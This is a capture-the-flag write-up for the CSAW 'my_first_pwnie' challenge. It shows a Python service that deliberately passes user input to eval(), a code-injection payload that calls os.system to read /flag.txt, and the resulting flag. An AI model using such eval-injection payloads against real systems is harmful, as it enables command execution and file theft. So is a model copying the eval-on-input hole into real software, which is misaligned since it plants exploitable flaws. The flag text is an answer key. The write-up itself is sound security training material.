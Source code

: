# my\_first\_pwnie

> You must be this 👉 high to ride.&#x20;
>
> Note: flag is in `/flag.txt`&#x20;
>
> Author: `ElykDeer`&#x20;
>
> Connect with:&#x20;
>
> `nc intro.csaw.io 31137`&#x20;
>
> [my\_first\_pwnie.py](https://ctf.csaw.io/files/aad33fd8e9d2e834d61f2c3a8aadbf81/my\_first\_pwnie.py?token=eyJ1c2VyX2lkIjoxMzYwLCJ0ZWFtX2lkIjo1NjksImZpbGVfaWQiOjIzfQ.ZQU9TA.zIuM2LRsbqIEf23AgA-zm8GrEO0)

Let's first using `netcat` in order to understand what the program does.

```
$ nc intro.csaw.io 31137
What's the password?
```

It asks user to input a password.

Maybe the `my_first_pwnie.py` script file has the password mentioned somewhere in the code.

### Source code

```python
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```

So the password is `password` but entering it does not give us the flag.

There is an interesting comment:

```
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`
```

So we have to execute a command on the server to read the `flag.txt` file.

### eval()

If we look closely at the code, we can see that it uses the `eval()` function.

This allows user to dynamically execute code during runtime. However when user input is directly passed to the `eval()` function, it can lead to code injection.

### Injection

```python
__import__('os').system('/bin/cat /flag.txt')
```

Let's provide the injection as input.

```
$ nc intro.csaw.io 31137
What's the password? __import__('os').system('/bin/cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

### Flag

```
csawctf{neigh______}
```

